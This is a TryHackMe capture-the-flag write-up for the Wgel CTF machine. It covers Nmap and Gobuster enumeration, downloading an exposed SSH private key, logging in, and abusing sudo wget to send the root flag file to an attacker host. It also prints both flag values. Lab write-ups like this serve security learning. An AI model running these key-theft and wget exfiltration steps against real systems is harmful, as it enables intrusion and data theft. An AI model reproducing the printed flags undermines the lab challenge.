


# Wgel CTF

> Platform: TryHackMe
>
> Created by: [MrSeth6797](https://tryhackme.com/p/MrSeth6797)
>
> Difficulty: Easy

## Enumeration

First of all, we will begin with the **Nmap**. Actually, you can just use a normal Nmap command, but here is my preferences.
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Wgel CTF]
└─$ nmap -sVSC <TARGET-IP> -T5 -Pn -n -vvv -oA wgelctfscan
Nmap scan report for <TARGET-IP>
Host is up, received user-set (0.26s latency).
Scanned at 2025-08-10 22:58:01 +08 for 18s
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCpgV7/18RfM9BJUBOcZI/eIARrxAgEeD062pw9L24Ulo5LbBeuFIv7hfRWE/kWUWdqHf082nfWKImTAHVMCeJudQbKtL1SBJYwdNo6QCQyHkHXslVb9CV1Ck3wgcje8zLbrml7OYpwBlumLVo2StfonQUKjfsKHhR+idd3/P5V3abActQLU8zB0a4m3TbsrZ9Hhs/QIjgsEdPsQEjCzvPHhTQCEywIpd/GGDXqfNPB0Yl/dQghTALyvf71EtmaX/fsPYTiCGDQAOYy3RvOitHQCf4XVvqEsgzLnUbqISGugF8ajO5iiY2GiZUUWVn4MVV1jVhfQ0kC3ybNrQvaVcXd
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDCxodQaK+2npyk3RZ1Z6S88i6lZp2kVWS6/f955mcgkYRrV1IMAVQ+jRd5sOKvoK8rflUPajKc9vY5Yhk2mPj8=
|   256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJhXt+ZEjzJRbb2rVnXOzdp5kDKb11LfddnkcyURkYke
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

From the **Nmap** results, looks like there's a port 80 open.


When viewing the **source page**, we found out, there is a user **Jessie** mentioned

Now try to **enumerate the web directory** of the page **using GoBuster**:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Wgel CTF]
└─$ gobuster dir -u http://<TARGET-IP>/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://<TARGET-IP>/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 11374]
/server-status        (Status: 403) [Size: 278]
/sitemap              (Status: 301) [Size: 316] [--> http://<TARGET-IP>/sitemap/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

When going to the **/sitemap** page, we found out that the page is using the Colorlib template.


Try to **enumerate more** from the **/sitemap** directory.
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Wgel CTF]
└─$ gobuster dir -u http://<TARGET-IP>/sitemap/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://<TARGET-IP>/sitemap/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.ssh                 (Status: 301) [Size: 321] [--> http://<TARGET-IP>/sitemap/.ssh/]
/css                  (Status: 301) [Size: 320] [--> http://<TARGET-IP>/sitemap/css/]
/fonts                (Status: 301) [Size: 322] [--> http://<TARGET-IP>/sitemap/fonts/]
/images               (Status: 301) [Size: 323] [--> http://<TARGET-IP>/sitemap/images/]
/index.html           (Status: 200) [Size: 21080]
/js                   (Status: 301) [Size: 319] [--> http://<TARGET-IP>/sitemap/js/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

Looks like there is a **/.ssh** directory. Try to retrieve the private key.
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Wgel CTF]
└─$ wget http://<TARGET-IP>/sitemap/.ssh/id_rsa
```

## Exploitation

Now, try to **SSH** using the id_rsa file.
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Wgel CTF]
└─$ ssh jessie@<TARGET-IP> -i id_rsa
```

Try to find the user flag:
```
$ find / -name *.txt 2>/dev/null
.
.
.
/home/jessie/Documents/user_flag.txt
```

Retrieve the user flag:
```
$ cat /home/jessie/Documents/user_flag.txt
```

<details>
<summary><b>🏳️Flag: user_flag.txt</b></summary>
<b>057c67131c3d5e42dd5cd3075b198ff6</b>
</details><br>

## Privilege Escalation

Moving on to **escalate our privileges to root**. We need to find what can we leverage to spawn a privilege shell.

First we try to check with the **sudo permission** first
```
$ sudo -l
.
.
User jessie may run the following commands on CorpOne:
.
    (root) NOPASSWD: /usr/bin/wget
```

Here, we can try to retrieve the root flag. First, set netcat as listener on our attacker machine then post the root flag file using the **File Upload** command from [GTFOBins - wget](https://gtfobins.github.io/gtfobins/wget/).

```
$ sudo /usr/bin/wget --post-file=/root/root_flag.txt <ATTACKER-IP>:<ATTACKER-PORT>
```

Read the **root flag**:



<details>
<summary><b>🏳️Flag: root_flag.txt</b></summary>
<b>b1b968b37519ad1daa6408188649263d</b>
</details><br>